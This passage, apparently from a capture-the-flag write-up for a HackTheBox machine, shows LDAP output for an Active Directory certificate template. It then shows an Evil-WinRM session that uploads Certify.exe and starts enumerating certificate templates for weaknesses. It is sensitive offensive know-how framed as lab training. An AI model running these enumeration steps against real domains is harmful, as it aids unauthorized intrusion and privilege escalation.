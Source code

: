 ```shell
displayName: Web Server
uSNCreated: 12794
uSNChanged: 12794
showInAdvancedViewOnly: TRUE
name: WebServer
objectGUID:: pKqPPHW8vkuSnHq5la5RDg==
flags: 66113
revision: 4
objectCategory: CN=PKI-Certificate-Template,CN=Schema,CN=Configuration,DC=mana
 ger,DC=htb
pKIDefaultKeySpec: 1
pKIKeyUsage:: oAA=
pKIMaxIssuingDepth: 0
pKICriticalExtensions: 2.5.29.15
pKIExpirationPeriod:: AIByDl3C/f8=
pKIOverlapPeriod:: AICmCv/e//8=
pKIExtendedKeyUsage: 1.3.6.1.5.5.7.3.1
pKIDefaultCSPs: 2,Microsoft DH SChannel Cryptographic Provider
pKIDefaultCSPs: 1,Microsoft RSA SChannel Cryptographic Provider
dSCorePropagationData: 16010101000000.0Z
msPKI-RA-Signature: 0
msPKI-Enrollment-Flag: 0
msPKI-Private-Key-Flag: 0
msPKI-Certificate-Name-Flag: 1
msPKI-Minimal-Key-Size: 2048
msPKI-Template-Schema-Version: 1
msPKI-Template-Minor-Revision: 1
msPKI-Cert-Template-OID: 1.3.6.1.4.1.311.21.8.14314111.5759319.7095462.1403641
 .2020894.35.1.16

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

To check vulnerabilities related to certificates, [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify) is used. You compile the solution with Visual Studio and get an executable file.

```shell
*Evil-WinRM* PS C:\Users\Raven\Documents> upload Certify.exe
                                        
Info: Uploading /home/kali/Desktop/tools/windows/certify/Certify.exe to C:\Users\Raven\Documents\Certify.exe
                                        
Data: 236884 bytes of 236884 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\Raven\Documents> .\Certify.exe find

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Find certificate templates
```